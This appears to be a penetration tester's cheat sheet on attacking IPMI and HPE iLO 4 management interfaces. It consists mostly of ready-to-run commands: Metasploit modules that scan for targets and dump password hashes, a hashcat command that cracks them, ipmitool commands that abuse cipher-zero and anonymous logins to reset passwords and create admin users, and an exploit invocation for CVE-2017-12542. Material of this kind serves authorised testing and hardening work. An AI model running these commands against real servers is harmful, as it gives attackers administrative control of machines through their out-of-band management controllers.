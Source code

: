 # IPMI

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)
* [https://habr.com/ru/company/selectel/blog/439834/](https://habr.com/ru/company/selectel/blog/439834/)

## Discovery

```text
msf > use auxiliary/scanner/ipmi/ipmi_version
msf > set RHOSTS file:ipmi.txt
msf > set THREADS 25
msf > run
```

## Dump Hashes

**CVE-2013-4786**

Dump hashes:

```text
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf > set OUTPUT_HASHCAT_FILE ipmi_hashes.txt
msf > set RHOSTS file:ipmi.txt
msf > set THREADS 25
msf > run
```

Recover plaintext passwords:

```text
$ hashcat -m 7300 -O -a 0 -w 4 --session=ipmi -o ipmi_hashes.out ipmi_hashes.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule --username
```

## Cipher Zero

**CVE-2013-4805**

Discover with MSF:

```text
msf > use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf > set RHOSTS file:ipmi.txt
msf > set THREADS 25
msf > run
```

Guess existing admin username. If `ADMIN` username is correct, the `list` command will succeed \(password doesn't matter\):

```text
$ sudo apt install ipmitool
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user list
```

Add new admin user \(only existing admin username is needed\):

```text
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set name <ID> snovvcrash
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set password <ID> 'Passw0rd!'
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user priv <ID> 4
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user enable <ID>
```

## Anonymous Authentication

Can be discovered with MSF `ipmi_dumphashes` but also with ipmitool:

```text
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user list
```

Change password of a named user account:

```text
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user set password <ID> 'Passw0rd!'
```

## HPE iLO 4

* [https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/](https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/)
* [https://github.com/airbus-seclab/ilo4\_toolbox](https://github.com/airbus-seclab/ilo4_toolbox)

### Add Admin User

**CVE-2017-12542**

Exploit with Python:

* [https://www.exploit-db.com/exploits/44005](https://www.exploit-db.com/exploits/44005)

```text
$ ./44005.py -t -e -u snovvcrash -p 'Passw0rd!' 127.0.0.1
```

Exploit with MSF:

```text
msf > use auxiliary/admin/hp/hp_ilo_create_admin_account
msf > set RHOSTS 10.10.13.37
msf > set USERNAME snovvcrash
msf > run
```

